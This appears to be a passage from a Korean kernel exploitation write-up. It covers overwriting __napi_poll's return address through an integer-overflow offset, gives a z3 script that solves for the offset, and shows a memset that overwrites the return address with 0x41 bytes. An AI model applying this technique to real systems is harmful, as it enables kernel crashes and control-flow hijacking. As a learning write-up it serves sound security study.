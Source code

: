 
__napi_poll 함수의 ret가 변조되어 죽는다.


원래는 rsi가 덮히는 ret와의 오프셋을 계산해서 정확히 해당 ret 위치부터 값을 덮으려고 오프셋 연산 진행 후에,


위에 작성했던 z3 코드를 이용하여 구하려 했으나, leak 할 때 사용했던 값과 똑같이 나와서 그대로 사용했다!


offset = 0xe4


```python
from z3 import *

s = Solver()

reg = BitVec('reg', 64)
len = BitVec('len', 64)
# len = BitVec('len', 64)


s.add(ULE(len, 0xff))
s.add(UGE(len, 0xc0))
s.add(UGE((reg - 4) * 4 + len, 0x100000000))
s.add(ULE(reg, 0xffffffff))
s.add((reg - 4) & 0xff == 0xe4) 
s.add(ULE(((reg-4) * 4 + len) & 0xffffffff, 0x50))

sol = s.check()
if sol == sat:
    print(s.model())
else:
    print("unsat")
```


예쁘게 덮어보자.


```c
memset(udpbuf_for_overwrite, 0x41, 8);
```


ret가 0x41414141…로 잘 덮인 것을 확인할 수 있다. 

